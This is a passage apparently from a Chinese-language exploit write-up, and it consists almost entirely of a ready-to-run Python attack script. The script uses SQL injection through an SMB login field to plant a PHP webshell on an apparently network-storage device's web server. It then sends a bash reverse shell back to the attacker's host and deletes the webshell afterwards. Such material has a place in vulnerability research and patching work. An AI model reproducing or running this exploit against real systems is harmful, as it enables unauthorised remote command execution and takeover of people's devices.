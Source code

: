 这使我们可以向数据库注入 PHP webshell。  
## 漏洞利用 (EXPLOITATION)  
  
通过访问该 webshell 来触发其执行  
```

from smb.SMBConnection import SMBConnection
import requests, os, uuid, threading, time

shell_name = f"shell_{str(uuid.uuid4())}.php"

def run_sql(ip,sql):
    sql = sql.replace(" ","/**/")
    conn = SMBConnection(f"""x' -u xx -A "haha','1','2','3','4');{sql};--" -a abc -- x -- '""", 'blah', "g", 'g', use_ntlm_v2 = True)
    conn.connect(ip, 139)

def shell():
    os.system("ncat -lvp 1337")
    r = requests.get(f"http://{target_ip}:8080/nc/{shell_name}",params={"0":f"rm -f /mnt/ext/opt/NotificationCenter/opt/www/{shell_name}"})

if __name__ == "__main__":
    if len(os.sys.argv) != 3:
        print("<exp> {target_ip} {host_ip}")
        exit(0)
    target_ip = os.sys.argv[1]
    host_ip = os.sys.argv[2]

    try:
        print("Running SQLI to File Write")
        run_sql(target_ip,f"ATTACH DATABASE '/mnt/ext/opt/NotificationCenter/opt/www/{shell_name}' AS q;CREATE TABLE q.x (x text);INSERT INTO q.x (x) VALUES('<?=system($_GET[0]);?>')")
    except:
        print("SMB Connection didn't work :(")

    requests.get(f"http://{target_ip}:8080/nc/{shell_name}?cache_bust")
    print("Spawning Rev Shell")
    t = threading.Thread(target=shell)
    t.start()

    rev = f"bash -i >& /dev/tcp/{host_ip}/1337 0>&1"
    time.sleep(1)
    r = requests.get(f"http://{target_ip}:8080/nc/{shell_name}",params={"0":rev})
```  
  
  
